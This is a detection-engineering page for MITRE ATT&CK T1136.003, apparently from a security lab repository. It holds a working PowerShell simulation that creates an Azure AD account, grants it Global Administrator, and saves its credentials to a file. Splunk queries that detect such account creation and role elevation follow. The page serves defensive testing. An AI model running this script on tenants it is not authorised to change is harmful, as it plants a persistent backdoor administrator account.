 # Create Cloud Account
## About
Adversaries may create a cloud account to maintain access to victim systems. <br>
<b>Tactic</b>    : Persistence <br>
<b>Technique</b> : Create Account<br>
More details here in <a href="https://attack.mitre.org/techniques/T1136/003/" target="_blank"> MITRE ATT&CK </a>. <br>

## Attack simulation
The Below script will create a cloud-only account in Azure AD.
``` powershell
$TenantDetails = $NULL
$CurrentlyLoggedInUser = $NULL
$OnMicrosoftDomain = $NULL
$connection = $NULL
$CurrentTimestamp = [DateTime]::Now.ToString("yyyyMMdd-HHmmss")
try { 
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Already connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"

} 
catch [Microsoft.Open.Azure.AD.CommonLibrary.AadNeedAuthenticationException] { 
    Write-Host "You're not connected to AzureAD. Connecting now..."; 
    $connection = Connect-AzureAD
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"
}
$CurrentlyLoggedInUser
$CurrentUserId = Get-AzureADUser -Filter "UserPrincipalName eq '$CurrentlyLoggedInUser'" | select -ExpandProperty ObjectId

$EmergencyUserUPNPrefix = Read-Host("Enter the name of the user you want to create or hit enter for the script to create one.")
if($EmergencyUserUPNPrefix -eq "")
{
	$EmergencyUserUPNPrefix = "TempUser_" + $CurrentTimestamp
}
$UserDisplayName = $EmergencyUserUPNPrefix 
$TenantDomain = $Connection.TenantDomain
$OnMicrosoftDomain = $CurrentlyLoggedInUser.substring($CurrentlyLoggedInUser.IndexOf('@'))
$OnMicrosoftDomain
$UserPrincipalName = $EmergencyUserUPNPrefix+$OnMicrosoftDomain

$EmUser = $NULL

try{
    $EmUser = Get-AzureADUser -ObjectId $UserPrincipalName -ErrorAction silentlycontinue
    write-output("Emergency user " + $UserPrincipalName + ' already exists.')
}catch{
    write-output("Emergency user " + $UserPrincipalName + ' does not exist. Creating now..')
    Add-Type -AssemblyName System.Web
    $UserPassword = [System.Web.Security.Membership]::GeneratePassword(32,2)
    $PasswordProfile = New-Object -TypeName Microsoft.Open.AzureAD.Model.PasswordProfile
    $PasswordProfile.Password = $UserPassword
    $UserPassword
    $NewUser = New-AzureADUser -DisplayName $UserDisplayName -PasswordProfile $PasswordProfile -AccountEnabled $true -UserPrincipalName $UserPrincipalName -MailNickName "EmUser"

    # Adding the new user to Global Admin role
    Write-output "Adding the new user to Global Admin r+ole"
    $GlobalAdminRole = Get-AzureADDirectoryRole | Where-Object { $_.displayName -eq  "Global Administrator"} 
    Add-AzureADDirectoryRoleMember -ObjectId $GlobalAdminRole.ObjectId -RefObjectId $NewUser.ObjectId 

    # Saving the details for the app
    $temp_location = (get-location).Drive.Root+"office365_temp\"
    $temp_file = $temp_location + $CurrentTimestamp+".txt"
    New-Item $temp_location -ItemType Directory -Force | Out-Null
    New-Item $temp_file -ItemType File -Force | Out-Null
    Add-Content $temp_file ("Tenant Domain: " + $AzureADSession.TenantDomain)
    Add-Content $temp_file ("Tenant Id: " + $AzureADSession.TenantId)
    Add-Content $temp_file ("Username: " + $UserPrincipalName)
    Add-Content $temp_file ("Password: " + $UserPassword)
    .\notepad.exe $temp_file
    write-output("User details written to the file\r\n")
}
```
When the script is run, It asks the name of the user to be created.<br>
If we just hit enter, It creates a user named "TempUser_" followed by the current date-time. <br>
<img src="../../../images/o365mitre/CreateAccount-T1136.png"></img>
<br>
Azure AD user is created as seen in the Azure portal. <br>
<img src="../../../images/o365mitre/CreateAccount-T1136_1.png"></img>
<br>

## Splunk Detections
### Create user event
```powershell
index=azure sourcetype="azure:aad:audit" activityDisplayName="Add user" result="success"
| spath targetResources{}
| rename targetResources{}.userPrincipalName as UserAdded initiatedBy.user.userPrincipalName as CreatedByUPN  additionalDetails{}.value as UserAgent
| table _time UserAdded CreatedByUPN  UserAgent
```
<br>
Newly created user is found in the search. <br>
<img src="../../../images/o365mitre/CreateAccount-T1136_2.png"></img>

Note : "Swagger-Codegen/1.4.0.0/csharp" is the user agent when Azure AD PowerShell is used to create the user.
<br>

### The User was created outside PIM (e.g. PowerShell)
```powershell
index=azure operationType="RoleElevatedOutsidePimAlert" result="success" 
| rename targetResources{}.displayName as key_5, targetResources{}.userPrincipalName as key_6
| eval a = mvzip(key_5,key_6)
| makemv a delim=","
| eval RoleNameUserAddedto  = mvindex(a,0)
| eval UserAdded = mvindex(a,3)
| rename initiatedBy.user.displayName as CreatedByName, initiatedBy.user.userPrincipalName as CreatedByUPN
| table _time UserAdded RoleNameUserAddedto CreatedByName CreatedByUPN 
```